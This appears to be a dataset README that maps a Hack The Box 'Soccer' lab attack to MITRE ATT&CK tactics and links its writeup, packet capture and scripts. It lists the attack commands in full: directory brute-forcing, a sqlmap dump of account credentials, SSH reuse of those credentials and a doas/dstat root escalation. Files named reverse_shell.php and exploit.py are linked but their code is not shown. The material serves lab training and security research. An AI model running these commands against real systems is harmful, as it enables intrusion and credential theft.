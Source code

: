 # Cyber4ML_Framework application in "Soccer" HTB machine

## Framework application details

|Documentation|MITRE ATT&CK|Enterprise|ICS|Network Analysis|Log Analysis|
|-|-|-|-|-|-|
|Yes|Yes|Yes|No|Yes|Yes|

|Attacker Level|Environment|VPN|Attacker IP|Victim IP|
|-|-|-|-|-|
|Average|Linux|Yes|10.10.16.31|10.10.11.194|

**Average:** The knowledge, behavior and attack-timing of the attacker is average.

## Documentation

Documentation of the attack: [Soccer Documentation](https://github.com/stevendamianakis/HackTheBox_Writeups/blob/main/Machines/Soccer/README.MD)

## MITRE ATT&CK mapping

Below, we map the attack to the MITRE ATT&CK Enterprise framework.

| Tactic | Technique | Subtechnique | Command/Script | CVE/CWE |
| - | - | - | - | - |
| Reconnaissance | Active Scanning | Wordlist Scanning | (1) | - |
| Initial Access | Valid Accounts | Local Accounts | - | - |
| Initial Access | Exploit Public-Facing Application | - | [reverse_shell.php](https://github.com/stevendamianakis/Cyber4ML_Framework/blob/main/HackTheBox/Soccer/reverse_shell.php) | CVE-2021-45010/CWE-22 |
| Execution | Exploitation for Client Execution | - | [reverse_shell.php](https://github.com/stevendamianakis/Cyber4ML_Framework/blob/main/HackTheBox/Soccer/reverse_shell.php) | CVE-2021-45010/CWE-22 |
| Discovery | System Owner/User Discovery | - | (2) | - |
| Discovery | File and Directory Discovery | - | (3) | - |
| Initial Access | Exploit Public-Facing Application | - | (4), [exploit.py](https://github.com/stevendamianakis/Cyber4ML_Framework/blob/main/HackTheBox/Soccer/exploit.py) | - |
| Execution | Command and Scripting Interpreter | Unix Shell | (4), [exploit.py](https://github.com/stevendamianakis/Cyber4ML_Framework/blob/main/HackTheBox/Soccer/exploit.py) | - |
| Persistence | Valid Accounts | Local Accounts | (5) | - |
| Discovery | Permission Groups Discovery | Local Groups | (6) | - |
| Privilege Escalation | Abuse Elevation Control Mechanism | Setuid and Setgid | (7) | - |


#### Commands/Scripts
- (1)
```
gobuster dir -u http://soccer.htb/ -w /usr/share/wordlists/dirb/big.txt
```

- (2)
```
whoami
```

- (3)
```
ls /etc/nginx/sites-enabled
```

- (4)
```
sqlmap -u "http://localhost:8081/?id=1" -D soccer_db -T accounts -C username,password --dump
```

- (5)
```
ssh player@10.10.11.194
```

- (6)
```
sudo -l
```

- (7)
```
doas -u root /usr/bin/dstat --exploit
```

## Network Analysis

Pcap file of the attack: [Capture File](https://github.com/stevendamianakis/Cyber4ML_Framework/blob/main/HackTheBox/Soccer/attack_capture.pcapng)

## Log Analysis

```
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
```
